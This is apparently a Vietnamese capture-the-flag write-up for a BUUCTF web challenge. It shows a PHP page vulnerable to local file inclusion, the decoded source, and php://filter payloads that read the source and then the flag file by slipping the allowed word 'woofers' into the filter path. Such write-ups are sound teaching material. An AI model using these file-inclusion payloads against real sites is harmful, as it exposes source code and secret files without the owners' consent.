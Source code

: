 Mở đầu challenge, cho ta trang web có 2 link `woofers` và `meowers`.Mình thử nhấp vào 1 trong 2.Nhận thấy URL thay đổi `/index.php?category=woofers`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/760e8341-4d7e-44d6-9317-b5ea50c6556d)

Mình nghĩ bài này là RCE.Mình thử đọc file index bằng payload sau.

`php://filter/convert.base64-encode/resource=index`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4d638aa3-1a15-46d0-a7d0-e7365fb24352)

Kết quả trả về là 1 dãy base64.Sau khi decode.

```php
 <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

Vậy thì input `Category` bắt buộc phải có `woofers`, `meowers` và `index`.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d21adce0-8f88-42e2-b70c-8ad2a00fe5b1)

Nhận thấy load thành công file flag.

`php://filter/convert.base64-encode/woofers/resource=flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/656aaf2f-0d12-4307-bf6e-2f4021260184)

Sau đó chỉ cần decode là xong.
